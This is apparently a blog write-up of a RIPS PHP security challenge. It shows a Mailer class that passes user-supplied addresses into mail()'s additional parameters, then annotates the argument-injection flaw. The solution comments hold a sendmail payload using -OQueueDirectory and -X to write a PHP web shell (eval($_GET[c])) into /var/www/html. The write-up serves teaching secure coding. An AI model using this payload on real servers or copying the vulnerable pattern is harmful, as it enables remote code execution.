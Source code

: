 ```yaml
---

title: rips-56
author: raxjs
tags: [php]

---
```


$DESCRIPTION

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1154752480611373058" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
class Mailer {
    private function sanitize($email) {
        if(!filter_var($email, FILTER_VALIDATE_EMAIL)) {
            return '';
        }

        return escapeshellarg($email);
    }

    public function send($data) {
        if(!isset($data['to'])) {
            $data['to'] = 'none@ripstech.com';
        } else {
            $data['to'] = $this->sanitize($data['to']);
        }

        if(!isset($data['from'])) {
            $data['from'] = 'none@ripstech.com';
        } else {
            $data['from'] = $this->sanitize($data['from']);
        }

        if(!isset($data['subject'])) {
            $data['subject'] = 'No Subject';
        }

        if(!isset($data['message'])) {
            $data['message'] = '';
        }

        mail($data['to'], $data['subject'], $data['message'], '', "-f" . $data['from']);
    }
}
$mailer = new Mailer();
$mailer->send($_POST);

{{< /code >}}

# Solution
{{< code language="php" highlight="4-6,34,39" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
class Mailer {
    private function sanitize($email) {
        // 2) $email is user input. this filter is not 
        // enough to prevent argument injection later in
        // step 3
        if(!filter_var($email, FILTER_VALIDATE_EMAIL)) {
            return '';
        }

        return escapeshellarg($email);
    }

    public function send($data) {
        if(!isset($data['to'])) {
            $data['to'] = 'none@ripstech.com';
        } else {
            $data['to'] = $this->sanitize($data['to']);
        }

        if(!isset($data['from'])) {
            $data['from'] = 'none@ripstech.com';
        } else {
            $data['from'] = $this->sanitize($data['from']);
        }

        if(!isset($data['subject'])) {
            $data['subject'] = 'No Subject';
        }

        if(!isset($data['message'])) {
            $data['message'] = '';
        }
        // 3) argument injection in parameter 5 ($data['from'])
        mail($data['to'], $data['subject'], $data['message'], '', "-f" . $data['from']);
    }
}
$mailer = new Mailer();
// 1) send receives user input as argument
$mailer->send($_POST);

// [1] https://blog.sonarsource.com/why-mail-is-dangerous-in-php?redirect=rips
//
// var_dump(!filter_var('\'a."\'\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php', FILTER_VALIDATE_EMAIL));
// bool(false)
// php > echo sanitize('\'a."\'\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php');
// ''\''a."'\''\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php'
// php > echo escapeshellcmd(sanitize('\'a."\'\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php'));
// ''\\''a."\'\\\'\'\\ -OQueueDirectory=\\%0D\<\?=eval\(\$_GET\[c\]\)\?\>\\ -X/var/www/html/"@a.php\'

// $ cat /tmp/test-mail.sh
// #!/bin/sh
// 
// echo "$@" >> /tmp/test-mail.log
// 
// $ grep sendmail_path /etc/php7/php.ini
// sendmail_path = /tmp/test-mail.sh

// $ cat /tmp/test-mail.log
// -faaa@bbb.ru
// -f\a.\'\\'\'\ -OQueueDirectory=\%0D\<\?=eval\($_GET\[c\]\)\?\>\ -X/var/www/html/@a.php'

// mail(
//     string $to,
//     string $subject,
//     string $message,
//     array|string $additional_headers = [],
//     string $additional_params = ""
// ): bool
//
// additional_params (optional)
// The additional_params parameter can be used to pass additional flags
// as command line options to the program configured to be used when
// sending mail, as defined by the sendmail_path configuration
// setting. For example, this can be used to set the envelope sender
// address when using sendmail with the -f sendmail option.
// 
// This parameter is escaped by escapeshellcmd() internally to prevent
// command execution. escapeshellcmd() prevents command execution, but
// allows to add additional parameters. For security reasons, it is
// recommended for the user to sanitize this parameter to avoid adding
// unwanted parameters to the shell command.
// 
// Since escapeshellcmd() is applied automatically, some characters that
// are allowed as email addresses by internet RFCs cannot be used. mail()
// can not allow such characters, so in programs where the use of such
// characters is required, alternative means of sending emails (such as
// using a framework or a library) is recommended.
// 
// The user that the webserver runs as should be added as a trusted user
// to the sendmail configuration to prevent a 'X-Warning' header from
// being added to the message when the envelope sender (-f) is set using
// this method. For sendmail users, this file is /etc/mail/trusted-users.


{{< /code >}}
